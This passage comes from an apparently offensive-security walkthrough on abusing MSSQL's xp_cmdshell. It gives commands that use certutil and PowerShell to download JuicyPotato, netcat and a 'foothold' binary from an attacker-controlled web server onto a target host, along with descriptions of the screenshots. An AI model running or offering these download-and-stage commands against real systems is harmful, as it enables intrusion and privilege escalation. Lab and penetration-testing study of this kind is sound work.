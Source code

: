 **Commands (if permissions allow):**
```sql
EXEC xp_cmdshell 'certutil -urlcache -split -f http://192.168.1.210/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe';
EXEC xp_cmdshell 'certutil -urlcache -split -f http://192.168.1.210/nc.exe C:\Users\Public\nc.exe';
```
The image below illustrates the failure when attempting to use **certutil**, confirming the process creation restriction.

![AccessDeniedCreateProcess](assets/images/mssql/error-usingxp_cmdshell-and-certutil-to-donwload-files.png)

### Method 2 - Download Malicious Files Using xp_cmdshell and PowerShell

Since **Method 1** failed when attempting to use **certutil**, we need to find an alternative way to get our binaries onto the target host. Fortunately, we can try to spawn a **PowerShell** process using **xp_cmdshell** to download the files instead.

Before doing so, we first test whether PowerShell can be invoked successfully by the current user context. This helps us confirm whether **process creation is allowed at all**, or whether it's just **certutil** that is being restricted.

**Test PowerShell Execution Command:**
```sql
EXEC xp_cmdshell 'powershell -c "Write-Output CanWeUsePowerShell"';
```
If the output returns **CanWeUsePowerShell**, it means PowerShell is available and executable from within SQL Server, even if **certutil** is blocked.

The image below shows the output returned from our PowerShell test, confirming that **PowerShell is available and executable** from within SQL Server via **xp_cmdshell**. This means we can leverage it to download and execute files on the target host.

![TestPowerShellAccess](assets/images/mssql/testing-mssql-can-spawn-powershell.png)

The following commands can now be used to **download malicious binaries to the target host using PowerShell**. Since PowerShell is available and executable via **xp_cmdshell**, we can leverage it to retrieve our payloads directly from our attacker-controlled Python web server.

**Download Files via PowerShell:**
```sql
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest http://192.168.1.210/JuicyPotato.exe -OutFile C:\Users\Public\JuicyPotato.exe"';
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest http://192.168.1.210/foothold.exe -OutFile C:\Users\Public\foothold.exe"';
```
The image below shows the files being successfully downloaded from the Python web server hosted on the attacker machine. This confirms our ability to stage binaries on the target for further exploitation.
